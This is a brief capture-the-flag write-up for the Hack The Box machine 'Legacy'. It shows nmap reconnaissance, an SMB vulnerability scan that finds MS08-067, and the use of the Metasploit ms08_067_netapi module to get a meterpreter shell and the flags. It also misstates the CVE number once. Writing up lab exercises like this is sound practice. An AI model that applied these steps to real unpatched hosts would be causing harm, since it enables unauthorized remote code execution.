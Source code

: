 # Legacy

This was way too easy, even for me. It's probably not even worth doing a write-up on, but anyway...

## Recon
I start with the usual nmap command `nmap -sV -sC -Pn 10.10.10.4`, so we're running default script, service version, treating the host as up and targeting 10.10.10.4.

Nmap returns with:
```
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m40s, deviation: 2h07m15s, median: 4d22h57m41s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:5c:6c (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-08-22T13:00:33+03:00
```

Nothing too unusual here, SMB is a good place to start though. Before I even try to browse to it, I ran this nmap command: `nmap -Pn -p 445 --script smb-vuln-* 10.10.10.4`. So this time, we're looking at only port 445, and specifically running SMB vulnerability scripts at our host address.

The following is the interesting part:
```
nmap -Pn -p 445 --script smb-vuln-* 10.10.10.4 
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx

Nmap done: 1 IP address (1 host up) scanned in 9.32 seconds
```

Checking out [the MITRE link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250) lets us understand how the exploit works. Essentially we're sending a buffer overflow to the service. I had a look on exploit DB and found [an example of the attack written in C](https://www.exploit-db.com/exploits/7104) but decided to be lazy once again and boot up Metasploit

## Exploitation
With Metasploit open, I just searched the CVE number: 2008-4350, loaded up the only result: `0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft` set RHOSTS to `10.10.10.4` LHOSTS to my IP address and ran the command.

*Note: the machine kept booting me due to network/msf issues. Not sure why, but I ended up finding out that the Windows version we're targeting is Selected Target: Windows XP SP3 English (AlwaysOn NX). To speed up the process I also set target to 6 (this Windows version) when reconnecting.*

Just like that, we have a meterpreter shell on the machine. We can grab the flags from John's Desktop, and Administrator's Desktop.
